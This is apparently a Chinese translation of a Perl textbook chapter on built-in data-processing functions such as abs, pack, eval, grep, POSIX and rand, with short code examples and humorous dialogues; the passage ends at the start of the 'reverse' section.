## 内置函数：数据处理

| 如果你需要以下内容的快速参考 | 请参见页码： |
| --- | --- |
| **abs** 绝对值 | 465 |
| **atan2** 反正切 | 466 |
| 大数处理：**Math::BigInt** 和 **Math::BigFloat** | 467 |
| **chr** 根据字符代码获取字符 | 467 |
| 复数：**Math::Complex** | 468 |
| **cos** 余弦 | 469 |
| **each** 哈希键/值对 | 470 |
| **eval** 在运行时求值 Perl 代码 | 471 |
| **exists** 检查哈希键 | 472 |
| **exp** 求 e 的幂 | 473 |
| **grep** 搜索匹配元素 | 474 |
| **hex** 从十六进制转换 | 475 |
| **index** 子字符串的位置 | 475 |
| **int** 截断为整数 | 476 |
| 整数运算 | 477 |
| **join** 将列表连接为字符串 | 478 |
| **keys** 获取哈希键 | 478 |
| **lc** 转换为小写 | 479 |
| **lcfirst** 将首字符转换为小写 | 480 |
| **length** 获取字符串长度 | 481 |
| **pack** 将值打包为字符串 | 481 |
| POSIX 函数 | 483 |
| **rand** 生成随机数 | 486 |
| **reverse** 反转列表 | 487 |
| **rindex** 反向索引 | 488 |
| **sin** 正弦 | 489 |
| **sort** 排序列表 | 490 |
| **split** 将字符串拆分为字符串数组 | 492 |
| **sprintf** 格式化字符串 | 493 |
| **sqrt** 平方根 | 495 |
| **srand** 设置随机数种子 | 496 |
| **substr** 获取子字符串 | 496 |
| **time** 获取自 1970 年 1 月 1 日以来的秒数 | 497 |
| **Math::Trig** 中的三角函数 | 498 |
| **uc** 转换为大写 | 500 |
| **ucfirst** 将首字符转换为大写 | 501 |
| **unpack** 从打包字符串中解包值 | 502 |
| **values** 获取哈希值 | 504 |
| **vec** 访问无符号整数向量 | 504 |

## 深入探讨

本章内容围绕 Perl 的一大财富源泉展开——即为 Perl 编程增添强大功能的内置函数。很难想象没有 Perl 函数的 Perl 编程是什么样子；语言的内置语法是一回事，但这仅仅是开始。

## Perl 函数

Perl 的强大功能很大程度上来源于其内置函数，我们在本书中已经使用了其中的许多。例如，我们已经看过 **join** 函数，它将列表连接为字符串：

```perl
@array = (1, 2, 3, 4, 5, 6, 7, 8, 9, 10);
print join(", ", @array);
```

1, 2, 3, 4, 5, 6, 7, 8, 9, 10

我们还使用过 **keys** 函数，它返回哈希中所有键的列表：

```perl
$hash{sandwich} = ham;
$hash{drink} = 'strawberry juice';

foreach $key (keys %hash) {
    print $hash{$key} . "\n";
}
```

strawberry juice
ham

然而，对于我们已经见过的每一个函数，还有其他函数我们尚未见过，比如 **vec** 函数。该函数将表达式视为一维无符号整数数组，并允许你对该数组中的位字段进行操作，如下所示，我将一个十六进制数转换为二进制数：

```perl
$hexdigit = 0xA;

vec ($data, 0, 8) = $hexdigit;
print vec ($data, 3, 1);
print vec ($data, 2, 1);
print vec ($data, 1, 1);
print vec ($data, 0, 1);
```

1010

Perl 包含许多内置函数，因此我将在接下来的几章中逐一介绍它们。在本章中，我将介绍用于数据处理和数据操作的 Perl 内置函数。在下一章中，我将介绍用于 I/O 的内置函数。

因此，本章及接下来的几章构成了一个 Perl 函数资料库。其中一些函数我们已经在本书中见过。对于这些函数，我将简要描述并给出示例，同时指出在哪些地方可以更全面地了解该函数。本章中介绍的大多数函数都是 Perl 内置的，可以直接使用。对于其他函数，如 POSIX 函数，你需要包含相应的模块，因此我会在必要时为每个函数介绍相关信息。我们一直在使用这些函数中的许多，所以它们确实无需更多介绍；让我们开始吧。

## abs 绝对值

"嗯，"新手程序员说，"我想使用 **sqrt** 函数对一个数取平方根，但我一直收到 Perl 的烦人提示，比如 'Can't take sqrt of -4'。""你在尝试对一个负数取平方根？"你问道。"当然，"NP 说，"这有问题吗？""是的，"你说，"使用 **abs** 函数先获取该值的绝对值。"

严格来说，一个值的绝对值就是该值的大小（实际上，对于实数而言，这意味着如果存在负号就将其去掉）。在 Perl 中，**abs** 函数返回一个值的绝对值；如果你省略 *VALUE*，**abs** 使用 **$_**：

```perl
abs VALUE
abs
```

考虑这个示例：

```perl
$s = -5;
print "The absolute value of $s = ", abs $s;
```

*The absolute value of -5 = 5*

现在，让我向你展示如何解决新手程序员的问题：

```perl
$s = -4;
print "The square root = ", sqrt(abs $s);
```

*The square root = 2*

> **提示：** *如果你确实需要对负数取平方根，请参见本章后面"复数：Math::Complex"的主题。*

## atan2 反正切

**atan2** 函数接受两个参数 *Y* 和 *X*，并返回 *Y/X* 的反正切值：

```perl
atan2 Y, X
```

注意，返回值以弧度为单位，介于 –pi 和 pi 之间。要将弧度转换为角度，可以将值乘以 180 除以 pi。

现在，考虑这个示例；在这个例子中，我对 1 取反正切，即 pi / 4，然后乘以 4 来查看 Perl 使用的 pi 值（你也可以通过使用 **Math::Trig** 模块并使用该模块中名为 **pi** 的常量来获取该值）：

```perl
print (4 * atan2 1, 1);
```

3.14159265358979

在这个精度有些多余的示例中，我以度数报告一个角度：

```perl
$y = 1.15470053837925;
$x = 2.0;

$conversion = 180 / 3.14159265358979;
print "The angle = ", $conversion * atan2($y, $x), " degrees.";
```

*The angle = 30 degrees.*

Perl 没有直接的 **tan** 函数，但请记住，你可以将一个值的正弦除以余弦来得到正切。（**tan** 函数在 POSIX 包中可用：**POSIX::tan**。请参见本章后面的"POSIX 函数"和"**Math::Trig** 中的三角函数"主题。）

大老板出现了，看起来鬼鬼祟祟。"我们要被审计了，"大老板说，"所以我们需要做一点有创意的数学运算。我们有一点亏损。""亏损多少？"你问道。大老板说，"大约 $4,751,343,333,492,392.07。""嗯，"你说，"这个数字比 Perl 通常能处理的精度要大。我必须使用 **Math** 模块。"大老板说，"损失一点精度也不是坏事。"

**Math::BigInt** 和 **Math::BigFloat** 模块随 Perl 一起提供，为你提供扩展精度算术。这个示例展示了如何使用 **Math::BigInt new** 方法创建一个新的大整数：

```perl
use Math::BigInt;
$bi = Math::BigInt->new('11111111111111111');
print $bi * $bi;
```

+12345679012345678987654320987654321

当你以这种方式使用 Math 模块时，你进行的所有运算都使用新的数字格式，包括比较运算符，如这个示例所示：

```perl
use Math::BigInt;
$bi1 = Math::BigInt->new('11111111111111111');
$bi2 = Math::BigInt->new('11111111111111112');
print "\$bi2 > \$bi1" if $bi2 > $bi1;
```

$bi2 > $bi1

从 Perl v5.6.0 起，你还可以对大整数使用位运算符 **<<**、**>>**、**&**、**|** 和 **~**。

## chr 根据字符代码获取字符

新手程序员又回来了。"我只想打印一些字符，但我只有它们的字符代码，"NP 说。"没问题，"你说，"只需使用 **chr** 函数将字符代码转换为字符即可。没问题。"

**chr** 函数返回与你传入的 Unicode 字符代码对应的字符；如果你没有传入数字，**chr** 使用 **$_**：

```perl
chr NUMBER
chr
```


考虑这个简单的例子：

```
$s = 65;
print "The character " . chr($s) . " corresponds to character code $s";
```

*字符 A 对应于字符代码 65*

**chr** 函数是一个标量函数，所以如果你想将其与列表一起使用，必须显式地遍历列表的元素：

```
foreach (65 .. 67) {
    print chr(), " ";
}
```

*A B C*

请注意，如果你想同时将多个字符代码转换为字符，使用 **pack** 函数会更简单。例如，我将字符代码列表**打包**成字符串中的字符，像这样：

```
print pack("c3", 65, 66, 67);
```

*ABC*

## 复数：**Math::Complex**

“这数学对我来说太复杂了，”新手程序员说。“把它写出来，”你说，“我相信你能理清它。”“不行，”NP 说，“复杂数学，你知道的，虚数 i 等于 -1 的平方根什么的。大老板让我把两个复数 -2+3i 和 4+5i 相乘，我完全没头绪。”“哦，”你说，“使用 **Math::Complex** 模块。”

如果你需要处理复数，请使用 **Math::Complex** 模块来创建复数值。在这个例子中，我创建了两个新的复数，-2+3i 和 4+5i：

```
use Math::Complex;
$c1 = Math::Complex->new(-2,3);
$c2 = Math::Complex->new(4,5);
```

现在，我可以将这些值相乘并打印结果，像这样：

```
use Math::Complex;
$c1 = Math::Complex->new(-2,3);
$c2 = Math::Complex->new(4,5);
$c3 = $c1 * $c2;
print "$c1 x $c2 = $c3\n";
```

-2+3i x 4+5i = -23+2I

当你使用 **Math::Complex** 时，程序中其余的数学运算默认使用复数。比较是基于复数的大小（实部和虚部平方和的平方根），像这样：

```
use Math::Complex;
$c1 = Math::Complex->new(1,1);
$c2 = Math::Complex->new(2,2);
print "$c2 > $c1" if $c2 > $c1;
```

2+2i > 1+i

## cos 余弦

“我需要计算 45 度的余弦值，”新手程序员说。“嗯，”你说，“你可以使用 **cos** 函数。”“但是，”NP 说，“我不想写任何代码。”“哦，”你说，“45 度的余弦值是根号 2 除以 2。”“谢谢，”NP 说。“下次，”你说，“写点代码吧。”

**cos** 函数返回以弧度为单位的值的余弦值。（一个完整的圆包含 2 pi 弧度，要从弧度转换为角度，你可以乘以 180 除以 pi，或者使用 **Math::Trig** 模块中的 **rad2deg** 等函数。请参阅本章后面的“**Math::Trig** 中的三角函数”主题。）如果你没有传递值，**cos** 使用 `$_`：

```
cos EXPR
cos
```

在这个下一个例子中，我将 45 度转换为弧度后，打印其余弦值：

```
$angle = 45;
$conversion = 3.14159265358979 / 180;
$radians = $angle * $conversion;
print "The cosine of $angle degrees = ", cos $radians;
```

*45 度的余弦值 = 0.707106781186548*

要获取反余弦值，你可以使用 **POSIX::acos** 函数；请参阅本章后面的“POSIX 函数”主题。或者，你可以使用 **Math::Trig** 模块中的相同函数；请参阅“**Math::Trig** 中的三角函数”主题。

## each 哈希键/值对

新手程序员问：“循环遍历哈希的最佳方式是什么？”“那取决于，”你说，“具体情况。”“我就知道你会这么说，”NP 说。“但是，”你说，“很多人会说使用 **each** 函数是最好的主意。”NP 问道，“是吗？”

你第一次见到 **each** 函数是在第 3 章，但我现在将更正式地审视它。当你处理哈希时，这个函数非常有用，它提供了一种循环遍历哈希元素的简单方法（这使得在循环中使用哈希几乎像使用数组一样容易）。

在列表上下文中，**each** 函数从哈希返回键/值对（作为一个列表）；在标量上下文中，此函数返回哈希中下一个元素的键。通常，你这样使用 **each**：

```
each HASH
```

这个例子在列表上下文中使用 **each** 来返回键/值对列表：

```
$hash{sandwich} = grilled;
$hash{drink} = 'root beer';
while(($key, $value) = each(%hash)) {print "$key => $value\n";}
```

*drink => root beer*
*sandwich => grilled*

下面是在标量上下文中使用 **each** 的相同示例，它返回哈希中的下一个键：

```
$hash{sandwich} = grilled;
$hash{drink} = 'root beer';
while($key = each(%hash)) {print "$key => $hash{$key}\n";}
```

*drink => root beer*
*sandwich => grilled*

## eval 在运行时评估 Perl 代码

大老板出现了。“那个新手程序员占用了你太多时间，”BB 说，“写一个 Perl 教学工具，让 NP 能在计算机上交互式学习。”“嗯，”你说，不确定这最终是否会节省你的时间。“我想我可以写一个交互式 Perl shell，它能在不崩溃的情况下报告错误。”“很好，”BB 说。

那么，你如何在执行程序时评估一串 Perl 代码呢？你使用 **eval** 函数来评估 Perl 代码并执行它：

```
eval EXPR
eval BLOCK
eval
```

**EXPR** 的返回值在执行时被解析为 Perl 代码；如果你在 **BLOCK** 中传递 Perl 代码，该代码只被解析一次（与 **eval** 语句周围的代码同时解析）。如果你省略 **EXPR** 或 **BLOCK**，**eval** 评估 `$_`。

看看这个使用 **eval** 的简单例子：

```
eval {print "Hello "; print "there.";};
```

*Hello there.*

错误（如果存在）会在 **$@** 中返回。请记住，许多致命错误在 **eval** 语句中发生时并不致命。事实上，程序员使用 **eval** 最大的用途可能是测试有风险的代码，然后在 **$@** 中检查可能的错误。

让我给你看另一个例子。在这种情况下，我通过将有风险的代码放在 **try** 块中，然后在 **$@** 中检查错误，来模拟 C 等语言的 **try/catch** 块。这里的语法有点不寻常；为了使这个例子尽可能像标准的 C **try** 块，**try** 子程序实际上接受一个匿名子程序作为参数，然后像这样执行该参数中的代码（注意，这里的除以零不是致命的，但 **eval** 会报告它）：

```
sub try (&) {
    my $code = shift;
    eval {&$code};
    if ($@) {print "eval says: $@";}
};
```

## exists 检查哈希键

新手程序员回来了，说：“我很久以前写了这个哈希，忘记了里面有什么键。但是，如果我假设一个键在哈希中并使用它，Perl 会导致致命错误。”“没问题，”你说，“只需使用 **exists** 函数检查哈希中是否存在某个键。”

**exists** 函数如果给定的哈希键存在于哈希中，则返回真值：

```
exists EXPR
```

**exists** 函数告诉你某个特定的键是否存在于哈希中；请注意，它仅指示哈希是否具有某个键。该键实际引用的值可能未初始化（因此设置为 **undef**）。

在下一个例子中，我使用 **exists** 来检查 **%hash** 中是否存在一个键：

```
$hash{ID} = 12334;
$hash{Name} = Bertie;
$hash{Division} = Sales;

if (exists($hash{Phone})) {
    print "Key is in the hash.";
} else {
    print "Key is not in the hash.";
}
```

> *Key is not in the hash.*

请注意，**exists** 仅告诉你键是否在哈希中。要实际确定哈希中的元素是否已定义，请使用 **defined** 函数：

```
$hash{ID} = 12334;
$hash{Name} = Bertie;
$hash{Division} = Sales;

if (defined($hash{Phone})) {
    print "Element is defined.";
} else {
    print "Element is not defined.";
}

Element is not defined.
```

## exp 求 e 的幂

新手程序员说，“更多数学！现在，我必须计算 e 的 2 次方。”“嗯，”你说，“没问题。只需使用 exp 函数。”“好的，”NP 说，“怎么用？”

exp 函数返回 e（自然对数的底数）的 EXPR 次方；如果你省略 EXPR，exp 使用 `$_`：

```
exp EXPR
exp
```

这个例子显示了 Perl 用于 e 的值：

```
print exp 1;

2.71828182845905
```

下一个例子让用户输入要进行指数运算的值：

```
print "Welcome to the Exponentiator!\n";
print "Enter a number: ";

while ($s = <>) {
    print "\n";
    print " $s";
    print "e  = " . exp($s) . "\n";
    print "Enter a number: ";
}

Welcome to the Exponentiator!
Enter a number: 1
```


# grep 搜索匹配元素

> 新手程序员说：“我有一份文本列表，老板让我过滤掉所有四个字母的单词。我该怎么做？” “很简单，”你说，“用 **grep**。” “用*什么*？”新手问。

我们早在第 2 章就见过 **grep**，但这里为了完整性还是提一下。**grep** 函数通常这样工作：

```
grep BLOCK LIST
grep EXPR, LIST
```

这个函数对 ***LIST*** 的每个元素求值 ***BLOCK*** 或 ***EXPR***（将 **$_** 依次设为每个元素），并返回由表达式为真的元素组成的列表。注意，在标量上下文中，**grep** 返回表达式为真的次数。还要注意，***BLOCK*** 和 ***EXPR*** 都是在标量上下文中求值，这与 **map** 中的 ***BLOCK*** 和 ***EXPR*** 不同，后者是在列表上下文中求值的。

**grep** 函数与 **map** 的区别在于，**grep** 返回列表中满足特定条件的子列表，而 **map** 则对列表中的每个元素求值表达式。

下面的 **grep** 示例从文本中移除四个字母的单词：

```
print join(" ",(grep {!/^\w{4}$/}) (qw(Here are some four letter words.))));
```

```
are letter words.
```

| 相关解决方案： | 找到该内容的页码： |
| --- | --- |
| 使用 **grep** 查找符合你标准的列表项 | 85 |
| 使用 **grep** 搜索元素 | 210 |

# hex 从十六进制转换

“这些是数值，”老板说，“立刻把它们加到数据库里。” “但是，这些数值是文本字符串，”你说，“而且它们都是*十六进制*的。” “当然，”老板说，“标准格式。” “好吧，”你说，“我可以使用 **hex** 函数。”

**hex** 函数从字符串中返回十六进制值的数值；如果不指定字符串，**hex** 使用 $_。通常，你这样使用 **hex**：

```
hex EXPR
hex
```

在下面的示例中，请注意 Perl 中十六进制数通常的前缀 **0x** 在传递给 **hex** 的参数中并非必需：

```
print hex("10") , "\n";
```

16

```
print hex("0x10") , "\n";
```

16

```
print hex("ab") , "\n";
```

171

```
print hex("Ab") , "\n";
```

171

```
print hex("aB") , "\n";
```

171

```
print hex("AB") , "\n";
```

171

# index 子串位置

你正在开发新的文字处理器 SuperDuperText，想让用户能够搜索文本。“嗯，”你问道，“我该怎么做呢？”

你可以使用 **index** 函数。**index** 函数返回 **SUBSTR** 在 **STR** 中从 **POSITION** 开始或之后的位置。如果你省略 **POSITION**，**index** 从字符串的开头开始：

```
index STR, SUBSTR, POSITION
index STR, SUBSTR
```

如果未找到子串，**index** 返回 –1（实际上，是数组基准值减一，通常为 0）。这个简短的例子展示了如何使用 **index**：

```
$text = "Here's the text!";
print index $text, 'text';
```

11

| 相关解决方案： | 找到该内容的页码： |
| --- | --- |
| 字符串处理：使用 **index** 和 **rindex** 搜索字符串 | 344 |

# int 截断为整数

> “我只需要数字的整数部分，”新手程序员说。 “那样的话，”你说，“你可以使用 **int** 函数。” “如果我想只用整数值进行所有数学运算呢？”新手问。 “那样的话，”你说，“请看接下来的主题。”

**int** 函数返回表达式的整数部分；如果你省略表达式，**int** 使用 **$_**。通常，你这样使用 **int**：

```
int EXPR
int
```

这个函数只是截断数字并返回整数部分，所以不要用 **int** 来四舍五入数值。（相反，请使用 **sprintf**、**printf** 或 POSIX 函数 **POSIX::floor** 或 **POSIX::ceil**。请参阅本章后面的 POSIX Functions 主题。）

这两个简短的例子让你对 **int** 的工作方式略有了解：

```
print int 1.999;
```

1

```
print int 2.001;
```

2

# 整数运算

“我有个问题，”新手程序员说，“我有大量数字需要计算，但我必须只使用整数运算。编写代码花了我很长时间。” “别那样做，”你说，“使用 integer 模块。”

当你使用 integer 模块时，程序中的运算将使用整数数学执行数值运算。因此，数字的小数部分将被忽略。看看这个例子，它展示了 11 / 2 如何可以等于 5：

```
use integer;
$s1 = 11;
$s2 = 2;
print "With integer math, $s1 / $s2 = " . ($s1 / $s2);

With integer math, 11 / 2 = 5
```

除了数学运算，逻辑运算也会将数字视为整数，正如你在此所见，我们了解到在整数意义上 11 = 11.2：

```
use integer;
$s1 = 11;
$s2 = 11.2;
print "\$s1 = \$s2" if ($s1 == $s2);

$s1 = $s2
```

现在，看看另一个例子；在这个例子中，我通过不断剥离 $value 中的十六进制数字来将该数字转换为十六进制。为了避免每次除以 16 时小数点带来的问题，我使用了整数运算：

```
use integer;
$value = 258;
print "$value in hex = ";

while($value) {
    push @digits, (0 .. 9, a .. f)[$value & 15];
    $value /= 16;
}

while(@digits) {
    print pop @digits;
}

258 in hex = 102
```

# join 将列表连接成字符串

我们在整本书中都见过 **join** 函数，但这里我将更正式地审视它。**join** 函数将列表的元素连接成一个单一字符串，字段之间由 *EXPR* 的值分隔：

```
join EXPR, LIST
```

在这种情况下，*EXPR* 可以是一个多字符字符串。这个简短的例子使用了 **join**：

```
@array = (1, 2, 3, 4, 5, 6, 7, 8, 9, 10);
print join(", ", @array);
```

*1, 2, 3, 4, 5, 6, 7, 8, 9, 10*

当然，你不需要指定连接列表元素时使用的任何字符，在这种情况下，我传递空字符串 "" 来连接 **H, e, l, l, o**，结果输出与 **print** 显示的一样：

```
print join ("", H, e, l, l, o);
```

*Hello*

这个函数 **join** 是你在 Perl 中经常使用的基础函数之一。

| 相关解决方案： | 找到该内容的页码： |
| --- | --- |
| 将列表连接成字符串 | 81 |

# keys 获取哈希键

“嗯，”新手程序员说，“现在我必须遍历哈希中的所有键，然后……” “别再告诉我了，”你说，“使用 **keys** 函数。” “谢谢，”新手说。

**keys** 函数在使用哈希时至关重要，尤其是在遍历它们时。在列表上下文中，**keys** 函数返回给定哈希的所有键的列表；在标量上下文中，**keys** 返回键的*数量*：

```
keys HASH
```

下面的示例展示了如何在列表上下文中使用 **keys**，它返回哈希中键的列表，你可以用 **foreach** 遍历：

```
$hash{sandwich} = salami;
$hash{drink} = 'root beer';
foreach $key (keys %hash) {print $hash{$key} . "\n";}
```

root beer
salami

下一个示例展示了如何在标量上下文中使用 **keys** 来获取哈希中键的数量：

```
$hash{sandwich} = salami;
$hash{drink} = 'root beer';
print "%hash has ". keys(%hash) . " keys\n";
```

%hash has 2 keys

| 相关解决方案： | 找到该内容的页码： |
| --- | --- |
| 遍历哈希 | 129 |

# lc 转换为小写

“在 C 中，”编程正确性主管说，“我可以通过加上或减去 Unicode 编码中 *A* 和 *a* 之间的差值来改变字符的大小写。” “那很好，”你说，“在 Perl 中，你使用 **lc** 和 **uc** 函数。”

我们在第 8 章见过 **lc** 函数，这里我将更正式地审视它。**lc** 函数是一个实用函数，它返回你传递给它的字符串的小写形式；如果你不传递字符串，**lc** 使用 $_。通常，你这样使用 **lc**：

```
lc EXPR
lc
```

# 第11章 内置函数：数据处理

现在，来看这个简短的例子：

```
print lc 'HELLO!';
```

hello!

下一个例子同时使用了 **lc** 和 **uc**，将你输入的内容转换为小写和大写：

```
while (<>) {
    print "Here's what you typed lowercased: " . lc($_) . "\n";
    print "Here's what you typed uppercased: " . uc($_) . "\n";
}
```

Perl 规则！
你输入的内容转换为小写后：perl rules!
你输入的内容转换为大写后：PERL RULES!

**提示：** **lc** 函数实际上是 Perl 的内部函数，用于实现双引号字符串中的 **\L** 转义字符；而 **uc** 函数是用于实现双引号字符串中的 **\U** 转义字符的内部 Perl 函数。如果 **use locale** 编译指示生效，这两个函数都会遵守 **LC_CTYPE** 区域设置。

| 相关解决方案： | 找到该方案的页码： |
| --- | --- |
| 字符串处理：使用 **lc** 和 **uc** 转换大小写 | 342 |

## lcfirst 将首字符转换为小写

**lcfirst** 函数返回你传递给它的字符串，但第一个字符为小写；如果你没有传递字符串，**lc** 将使用 **$_**。通常，你这样使用 **lcfirst**：

```
lcfirst EXPR
lcfirst
```

现在，看这个简短的例子：

```
print lcfirst "I like poems by e.e. cummings.";
```

i like poems by e.e. cummings.

**提示：** **lcfirst** 函数实际上是 Perl 的内部函数，用于实现双引号字符串中的 **\l** 转义字符；而 **ucfirst** 函数是用于实现双引号字符串中的 **\u** 转义字符的内部 Perl 函数。如果 **use locale** 编译指示生效，这两个函数都会遵守 **LC_CTYPE** 区域设置。

## length 获取字符串长度

“哇，”大老板说，“公司的年度报告变得相当长了。它到底有多长？”“幸好它都存储在一个字符串里，”你说，“我可以使用 **length** 函数来找出答案。”

我们第一次在第8章看到了 **length** 函数，但这里我将更详细地探讨它。**length** 函数返回 *EXPR* 的长度（以字节为单位）；如果你省略 *EXPR*，length 将返回 **$_** 的长度。通常，你这样使用 **length**：

```
length EXPR
length
```

现在，考虑这个例子：

```
$text = "Here is the text.";
print length $text;
```

17

| 相关解决方案： | 找到该方案的页码： |
| --- | --- |
| 字符串处理：使用 **length** 获取字符串长度 | 346 |

## pack 将值打包成字符串

“哦哦，”新手程序员说，“我有麻烦了。大老板说我在磁盘使用上太奢侈了。现在，我必须更高效一些。”“嗯，”你说，“你之前用了多少空间？”“大约300千兆字节，”新手程序员说。“那么，”你问道，“考虑使用 **pack** 来打包你的数据如何？”

你可以使用强大的 **pack** 函数，将一个值列表**打包**到一个二进制结构中，并以字符串形式返回。通常，你这样使用 **pack**：

```
pack TEMPLATE, LIST
```

*TEMPLATE* 是一个字符序列，用于指定值的顺序和类型，使用以下格式说明符：

- **@**—填充空字符到绝对位置
- **A**—一个 ASCII 字符串；用空格填充
- **a**—一个 ASCII 字符串
- **B**—一个位字符串（降序）
- **b**—一个位字符串（升序）
- **C**—一个无符号 char 值
- **c**—一个有符号 char 值
- **d**—本机格式的双精度浮点数
- **f**—本机格式的单精度浮点数
- **H**—一个十六进制字符串（高位在前）
- **h**—一个十六进制字符串（低位在前）
- **I**—一个无符号整数值
- **i**—一个有符号整数值
- **L**—一个无符号 long 值
- **l**—一个有符号 long 值
- **N**—大端序的 long
- **n**—大端序的 short
- **P**—指向结构的指针
- **p**—指向以空字符结尾字符串的指针
- **S**—一个无符号 short 值
- **s**—一个有符号 short 值
- **u**—一个 uuencoded 字符串
- **V**—小端序的 long
- **v**—小端序的 short
- **w**—BER 压缩整数
- **X**—回退一个字节
- **x**—一个空字节
- **Z**—打包和解包以空字符结尾的字符串
- **!**—打包和解包本机的 short、int 和 long

每个字母后面可以跟一个数字表示重复次数；你也可以使用 * 作为重复次数的通配符，如这个例子所示：

```
print pack("ccc", 88, 89, 90);
```

*XYZ*

```
print pack("c3", 65, 66, 67);
```

*ABC*

```
print pack("c*", 68, 69, 70, 71);
```

*DEFG*

你可以使用 **pack** 和 **unpack** 将数字转换为二进制数字字符串。为此，你首先将其以网络字节顺序（也称为大端顺序，即最高有效位在前）打包，然后逐位解包，像这样：

```
$decimal = 100;
$binary = unpack("B32", pack("N", $decimal));
print $binary;
```

*00000000000000000000000001100100*

要将二进制数字字符串转换回数字，你只需反转前面的过程，像这样：

```
$decimal = 100;
$binary = unpack("B32", pack("N", $decimal));
$newdecimal = unpack("N", pack("B32", $binary));
print $newdecimal;
```

*100*

**提示：** 你以这种方式转换的字符串必须有 32 位，因此如有必要，请确保添加前导 0。

| 相关解决方案： | 找到该方案的页码： |
| --- | --- |
| 字符串处理：打包和解包字符串 | 347 |

## POSIX 函数

从版本 5 开始，Perl 在可用函数数量上获得了巨大提升，因为它变得符合 POSIX 标准。那么，什么是 POSIX？

# 第11章 内置函数：数据处理

美国国家标准与技术研究院计算机系统实验室（NIST/CSL）与其他组织一起创建了*可移植操作系统计算机环境接口*（*POSIX*）标准。POSIX 是一个庞大的、标准化的类 C 函数库，涵盖了从基础数学到高级文件处理的标准编程操作。

Perl 的 **POSIX** 模块让你能够访问几乎所有标准的 POSIX 1003.1 标识符——超过 250 个函数。这些函数并非像本章其余函数那样内置在 Perl 中，但由于 POSIX 通常为程序员提供比那些内置函数更多的功能，我将在此提及它。你可以通过使用 **use** 语句将 **POSIX** 模块添加到程序中：

```
use POSIX;                   #添加整个 POSIX 库
use POSIX qw(FUNCTION);      #使用选定的函数。
```

例如，我使用 POSIX 的 **tan** 函数获取 pi / 4 的正切值，如下所示：

```
use POSIX;
print POSIX::tan(atan2 (1, 1));
```

1

你也可以使用 Perl 的 **Math::Trig** 模块中的 **tan** 函数来完成同样的事情。请注意，我使用 Perl 的 **atan2** 函数来获取 pi / 4 的值，但 **Math::Trig** 模块有一个预定义常量 **pi**，其值相同（参见本章后面的“**Math::Trig** 中的三角函数”主题）。

那么，POSIX 中有哪些可用函数？你可以在表 11.1 中看到它们。你会在这个表格中看到一些熟悉的名字；许多（但并非全部）POSIX 函数已经在 Perl 中实现了。

事实上，表 11.1 中的许多函数已经以不同的名称隐藏在 Perl 中；例如，POSIX 的 **strstr** 函数与 Perl 的 **index** 函数相同。看看这个使用 **strstr** 的例子：

```
use POSIX;
$text = "Here's the text!";
print "The substring starts at position " . strstr $text, 'text';
```

*子字符串从位置 11 开始*

有关 Perl 中 POSIX 函数的更多信息，请查阅随 Perl 附带的 POSIX 文档。

## 表 11.1 POSIX 函数

| _exit | execlp | getegid | lseek | scanf | strtod |
| --- | --- | --- | --- | --- | --- |
| abort | execv | getenv | malloc | setgid | strtok |
| abs | execve | geteuid | mblen | setjmp | strtol |
| access | execvp | getgid | mbstowcs | setlocale | strtoul |
| acos | exit | getgrgid | mbtowc | setpgid | strxfrm |
| alarm | exp | getgrnam | memchr | setsid | sysconf |
| asctime | fabs | getgroups | memcmp | setuid | system |
| asin | fclose | getlogin | memcpy | sigaction | tan |
| assert | fcntl | getpgrp | memmove | siglongjmp | tanh |
| atan | fdopen | getpid | memset | sigpending | tcdrain |
| atan2 | feof | getppid | mkdir | sigprocmask | tcflow |
| atexit | ferror | getpwnam | mkfifo | sigsetjmp | tcflush |
| atof | fflush | getpwuid | mktime | sigsuspend | tcgetpgrp |
| atoi | fgetc | gets | modf | sin | tcsendbreak |
| atol | fgetpos | getuid | nice | sinh | tcsetpgrp |
| bsearch | fgets | gmtime | offsetof | sleep | time |
| calloc | fileno | isalnum | open | sprintf | times |
| ceil | floor | isalpha | opendir | sqrt | tmpfile |
| chdir | fmod | isatty | pathconf | srand | tmpnam |
| chmod | fopen | iscntrl | pause | sscanf | tolower |
| chown | fork | isdigit | perror | stat | toupper |
| clearerr | fpathconf | isgraph | pipe | strcat | ttyname |
| clock | fprintf | islower | pow | strchr | tzname |
| close | fputc | isprint | printf | strcmp | tzset |
| closedir | fputs | ispunct | putc | strcoll | umask |
| cos | fread | isspace | putchar | strcpy | uname |
| cosh | free | isupper | puts | strcspn | ungetc |
| creat | freopen | isxdigit | qsort | strerror | unlink |
| ctermid | frexp | kill | raise | strftime | utime |
| ctime | fscanf | labs | rand | strlen | vfprintf |
| cuserid | fseek | ldexp | read | strncat | vprintf |
| difftime | fsetpos | ldiv | readdir | strncmp | vsprintf |
| div | fstat | link | realloc | strncpy | wait |
| dup | ftell | localeconv | remove | strtoul | waitpid |
| dup2 | fwrite | localtime | rename | strpbrk | wcstombs |
| errno | getc | log | rewind | strrchr | wctomb |
| execl | getchar | log10 | rewinddir | strspn | write |
| execle | getcwd | longjmp | rmdir | strstr | |

## rand 创建随机数

技术支持部门打来电话。"帮帮忙，"他们说，"大老板问我们怎么生成随机数来模拟科学数据。""什么科学数据？"你问。"彩票号码，"技术支持说。"啊，"你说，"用 **rand** 函数。"

你可以按如下方式使用 **rand** 函数来创建随机数：

```
rand
rand *EXPR*
```

此函数生成 0 到 1 之间的数字，除非你传入一个值作为 ***EXPR***——在这种情况下，它会生成不超过该值（但不包含该值）的数字。如果你想获得特定范围内的随机数，比如 a 到 b，可以使用类似 **rand(b - a) + a** 的表达式。

以下示例生成不超过 100 的数字：

```
$random = rand(100);
print $random;
```

*16.6961669921875*

脚本运行时的样子如下：

```
%perl random.pl
```

*56.73828125*

```
%perl random.pl
```

*13.3270263671875*

```
%perl random.pl
```

*83.09326171875*

随机数生成器需要一个种子值，你可以通过 **srand** 函数来设置。（参见本章后面的"**srand** 设置随机数种子"主题。）然而，在 Perl 5.004 及更高版本中，如果你没有手动调用 **srand**，Perl 会自动为你调用它。

你不局限于生成随机数；以下示例展示了如何获取一个随机字母：

```
$letter = ('a' .. 'z')[26 * rand];
print $letter;
```

k

另外，这个示例是为大老板准备的：

```
print "Some lottery numbers to try:";
foreach (1 .. 6) {
    print " " . int rand (50) + 1;
}
```

*Some lottery numbers to try: 44 34 17 12 40 27*

> 提示：从 Perl v5.6.0 版本开始，Perl 会尝试使用系统库中可用的最真正的随机数生成例程；但是，如果你需要彻底的、科学意义上的随机数，请使用 CPAN 上的 **Math::Random** 和 **Math::TrulyRandom** 模块。

## reverse 反转列表

